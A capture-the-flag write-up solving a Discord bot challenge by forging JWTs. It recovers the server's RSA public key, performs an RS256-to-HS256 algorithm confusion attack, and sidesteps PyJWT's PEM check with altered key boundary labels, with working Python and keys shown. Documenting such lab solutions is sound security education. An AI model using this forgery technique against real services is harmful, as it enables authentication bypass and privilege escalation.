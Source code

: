 # [**Writeup**](#)

The challenge involves a Discord bot that provides two commands:
- `/start_adventure` registers a user and issues a JWT token.
![](../img/start_adventure.png)

- `/join_adventure` validates the user by decoding the provided JWT token using the specified algorithm.
![](../img/join_adventure.png)

The token's payload includes a public key (`pk`) that is used for decoding and is set to the server's public key if not provided. To solve the challenge, we exploit the `CVE-2017-11424` vulnerability to retrieve the server's public key using two JWT tokens and utilize the standalone tool in [rsa_sign2n](https://github.com/silentsignal/rsa_sign2n) to generate the public key.

After generating the public key, we can use it to forge a JWT token with a payload containing the user type `master` and a sufficiently extended expiration time. We will also perform an algorithm confusion attack by altering the algorithm from **RS256** (asymmetric) to **HS256** (symmetric):

```python
from datetime import datetime, timedelta

import jwt

token = 'eyJhbGciOiJSUzI1NiIsInR5cCI6IkpXVCJ9.eyJpZCI6NDc1MjcyMDU1NDk1ODUyMDUyLCJ1c2VybmFtZSI6ImQ0cnFzMWQzciIsInR5cGUiOiJhZHZlbnR1cmVyIiwiZXhwIjoxNzM0MTg4NTY5fQ.R6LwROf1vsduxakLxuO-fZcJKJjJNuiPNO7GLmFTaHxTAvk4r5asiAbTPwKDyuXgkVvU4N1-X1aL2NxETWBRAnV21XPUKFz1IFOiDTJmzrpNJsLLg8nI59OfYHAQePtly1SHZb8TFfrBFH5n9IVS_ULAy_VT0U7BiNNzUklHrhkuABw_PRqslGQGpdEeEiHnclPT4VUa0NmXjKcmdKvJHNO5vADeGnS95pCI8A5l2U1nHclaVe1KP_pI8Ix5pvTvZbmzosTM76Ybl81AAGMGCIobCa5juLaMmHtJcOk99t5J3CzzvMIHTLJ47k-MrlvnhVhQEeAK4SCcT7R7PUfpIg'

pk = '''-----BEGIN PUBLIC KEY-----
MIIBIjANBgkqhkiG9w0BAQEFAAOCAQ8AMIIBCgKCAQEAtfIWWGrtI6tUgigUxEAI
3KaraM2m8DcywnyuZxGaIumtE4MNekO0R35Q2bM2ZOAXU2E6he0S4SdItpArXLo+
QGetfTxvJ79/ypFs2Kjmh0m6EmgglNPurjhhtj2s534kcwBTJE1uv8DnWERMLyuD
ov8PzCnql78zuGh0N4dI3p1Q2Sb9EkAFvmndK9xTWcx87gfdJCdqPR09EUVuLx28
YHdu0DdXOiP/c0abCUwqHxKcAi5PqA8oRSm5uC/I4+flzkN9ciPglrHYwQSFOq0s
1sDZe3b0MeGujDf70LDk08HsLaPMCapcRIBFYs7H0H84hZeAN2cOw8x7iY50L3xZ
OwIDAQAB
-----END PUBLIC KEY-----
'''

header = jwt.get_unverified_header(token)
algorithm = header.get('alg', 'RS256')
payload = jwt.decode(token, options={"verify_signature": False})

payload['type'] = 'master'
payload['pk'] = pk
payload['exp'] = datetime.now() + timedelta(days=30)

token = jwt.encode(
    payload=payload,
    key=payload['pk'],
    algorithm='HS256'
)

print(token)
```

However, the challenge is complicated by the PyJWT package, which raises an error when attempting to use a public key for symmetric encryption.

```sh
Traceback (most recent call last):
  File "Cyber-Odyssey-Finals-2024/misc/FlagSideQuest/solve.py", line 25, in <module>
    token = jwt.encode(
        payload=payload,
        key=payload['pk'],
        algorithm='HS256'
    )
  File "/opt/homebrew/lib/python3.13/site-packages/jwt/api_jwt.py", line 78, in encode
    return api_jws.encode(
           ~~~~~~~~~~~~~~^
        json_payload,
        ^^^^^^^^^^^^^
    ...<4 lines>...
        sort_headers=sort_headers,
        ^^^^^^^^^^^^^^^^^^^^^^^^^^
    )
    ^
  File "/opt/homebrew/lib/python3.13/site-packages/jwt/api_jws.py", line 170, in encode
    key = alg_obj.prepare_key(key)
  File "/opt/homebrew/lib/python3.13/site-packages/jwt/algorithms.py", line 259, in prepare_key
    raise InvalidKeyError(
    ...<2 lines>...
    )
jwt.exceptions.InvalidKeyError: The specified key is an asymmetric key or x509 certificate and should not be used as an HMAC secret.
```

To circumvent this issue, we analyze the source code of the [.encode()](https://github.com/jpadilla/pyjwt/blob/565b6d95d65d8d210de5fad50e177cbd814a56de/jwt/api_jwt.py#L49) and [.decode()](https://github.com/jpadilla/pyjwt/blob/565b6d95d65d8d210de5fad50e177cbd814a56de/jwt/api_jwt.py#L195) methods in the [PyJWT](https://github.com/jpadilla/pyjwt/tree/master) package, particularly in [algorithms.py](https://github.com/jpadilla/pyjwt/blob/master/jwt/algorithms.py) and [utils.py](https://github.com/jpadilla/pyjwt/blob/master/jwt/utils.py).

In [utils.py](https://github.com/jpadilla/pyjwt/blob/565b6d95d65d8d210de5fad50e177cbd814a56de/jwt/utils.py#L97-L127), we find the function that checks if the key is in PEM format:

```python
_PEMS = {
    b"CERTIFICATE",
    b"TRUSTED CERTIFICATE",
    b"PRIVATE KEY",
    b"PUBLIC KEY",
    b"ENCRYPTED PRIVATE KEY",
    b"OPENSSH PRIVATE KEY",
    b"DSA PRIVATE KEY",
    b"RSA PRIVATE KEY",
    b"RSA PUBLIC KEY",
    b"EC PRIVATE KEY",
    b"DH PARAMETERS",
    b"NEW CERTIFICATE REQUEST",
    b"CERTIFICATE REQUEST",
    b"SSH2 PUBLIC KEY",
    b"SSH2 ENCRYPTED PRIVATE KEY",
    b"X509 CRL",
}

_PEM_RE = re.compile(
    b"----[- ]BEGIN ("
    + b"|".join(_PEMS)
    + b""")[- ]----\r?
.+?\r?
----[- ]END \\1[- ]----\r?\n?""",
    re.DOTALL,
)


def is_pem_format(key: bytes) -> bool:
    return bool(_PEM_RE.search(key))
```

The function uses a regex pattern to validate the PEM format. By modifying the public key to use a different pre-boundary that is not listed in the `_PEMS`, we can make the function return `False`, thus bypassing the validation.

```
-----BEGIN hh PUBLIC KEY-----
MIIBIjANBgkqhkiG9w0BAQEFAAOCAQ8AMIIBCgKCAQEAtfIWWGrtI6tUgigUxEAI
3KaraM2m8DcywnyuZxGaIumtE4MNekO0R35Q2bM2ZOAXU2E6he0S4SdItpArXLo+
QGetfTxvJ79/ypFs2Kjmh0m6EmgglNPurjhhtj2s534kcwBTJE1uv8DnWERMLyuD
ov8PzCnql78zuGh0N4dI3p1Q2Sb9EkAFvmndK9xTWcx87gfdJCdqPR09EUVuLx28
YHdu0DdXOiP/c0abCUwqHxKcAi5PqA8oRSm5uC/I4+flzkN9ciPglrHYwQSFOq0s
1sDZe3b0MeGujDf70LDk08HsLaPMCapcRIBFYs7H0H84hZeAN2cOw8x7iY50L3xZ
OwIDAQAB
-----END PUBLIC KEY-----
```

However, we encounter another error related to an invalid PEM post-boundary thrown by the [RSA.import_key(pk)](bot.py#L81) function in [RSA.py](https://github.com/pycrypto/pycrypto/blob/65b43bd4ffe2a48bdedae986b1a291f5a2cc7df7/lib/Crypto/PublicKey/RSA.py#L629).

![](../img/post_boundary.png)

By tracing the error back to [PEM.py](https://github.com/pycrypto/pycrypto/blob/65b43bd4ffe2a48bdedae986b1a291f5a2cc7df7/lib/Crypto/IO/PEM.py#L96-L163), we find that the error is caused by an invalid post-boundary. We can resolve this by appending the same text used in the pre-boundary to the post-boundary.

```
-----BEGIN hh PUBLIC KEY-----
MIIBIjANBgkqhkiG9w0BAQEFAAOCAQ8AMIIBCgKCAQEAtfIWWGrtI6tUgigUxEAI
3KaraM2m8DcywnyuZxGaIumtE4MNekO0R35Q2bM2ZOAXU2E6he0S4SdItpArXLo+
QGetfTxvJ79/ypFs2Kjmh0m6EmgglNPurjhhtj2s534kcwBTJE1uv8DnWERMLyuD
ov8PzCnql78zuGh0N4dI3p1Q2Sb9EkAFvmndK9xTWcx87gfdJCdqPR09EUVuLx28
YHdu0DdXOiP/c0abCUwqHxKcAi5PqA8oRSm5uC/I4+flzkN9ciPglrHYwQSFOq0s
1sDZe3b0MeGujDf70LDk08HsLaPMCapcRIBFYs7H0H84hZeAN2cOw8x7iY50L3xZ
OwIDAQAB
-----END hh PUBLIC KEY-----
```

Finally, we can generate a valid JWT token using the modified public key, changing the user type to "master" in the payload and extending the expiration time, as one minute is insufficient. The payload modification can be done in the same section of the code where the token is generated. After that, we need to add the bot to our server to obtain administrator permissions using the following link:

https://discord.com/oauth2/authorize?client_id=BOT_ID&permissions=274878024704&scope=applications.commands+bot

Once completed, you will successfully obtain the flag!

![](../img/flag.png)

# [**Solution**](#)
See the [solve.py](./solve.py) for the full implementation.
